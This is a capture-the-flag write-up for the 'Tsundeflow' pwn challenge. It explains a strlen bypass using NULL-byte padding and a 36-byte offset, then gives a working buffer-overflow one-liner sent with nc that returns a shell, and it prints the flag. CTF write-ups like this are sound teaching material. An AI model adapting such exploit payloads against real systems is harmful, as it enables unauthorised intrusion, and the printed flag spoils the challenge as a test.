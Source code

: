 # Tsundeflow
Pwn - 80 points

## Challenge 
> This one is a handful.

> Connect: `pwn2.chal.gryphonctf.com 17343`

> Creator - @LFlare

[tsundeflow-75e745682647a9e6794491e56f5504d5.c](tsundeflow-75e745682647a9e6794491e56f5504d5.c)
[tsundeflow-redacted-fb0908a3d9a30c4029acfdfd5bdbe313](tsundeflow-redacted-fb0908a3d9a30c4029acfdfd5bdbe313)

## Solution
Vulnerability is in `strlen`, which checks for length of string until a NULL character.
We can bypass it by filling the buffer with NULLs (`\x00`).

Fuzz for the offset length, which is 36.

	$ python -c 'print "\x00"*36 + "ABCD"' | strace ./tsundeflow-redacted-fb0908a3d9a30c4029acfdfd5bdbe313
	...
	--- SIGSEGV {si_signo=SIGSEGV, si_code=SEGV_MAPERR, si_addr=0x44434241} ---
	+++ killed by SIGSEGV +++
	Segmentation fault
		
Get the address of `win()`
	
	$ gdb ./tsundeflow-redacted-fb0908a3d9a30c4029acfdfd5bdbe313 
	...
	(gdb) break win
	Breakpoint 1 at 0x804857e


This is the final exploit

	$ (python -c 'print "\x00"*36 + "\x7e\x85\x04\x08"' && cat) | nc pwn2.chal.gryphonctf.com 17343
	I check input length now! Your attacks have no effect on me anymore!!!
	Your response? B-baka! It's not like I like you or anything!
	ls
	flag.txt
	tsundeflow
	cat flag.txt
	GCTF{51mpl3_buff3r_0v3rfl0w_f0r_75und3r35}

## Flag
`GCTF{51mpl3_buff3r_0v3rfl0w_f0r_75und3r35}`